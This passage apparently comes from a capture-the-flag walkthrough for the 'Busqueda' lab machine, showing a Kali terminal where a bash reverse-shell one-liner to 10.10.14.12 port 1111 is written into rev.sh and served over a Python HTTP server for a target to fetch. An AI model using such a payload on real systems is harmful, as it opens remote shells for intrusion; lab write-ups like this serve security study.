 ![](/assets/obsidian/95669a942d28d9f7aa696325105c0ea8.png)

Host reverse shell

```bash
┌──(root㉿kali)-[~/Busqueda]
└─# mkdir www

┌──(root㉿kali)-[~/Busqueda]
└─# echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.12/1111 0>&1"' > www/rev.sh

┌──(root㉿kali)-[~/Busqueda]
└─# cd www

┌──(root㉿kali)-[~/Busqueda/www]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
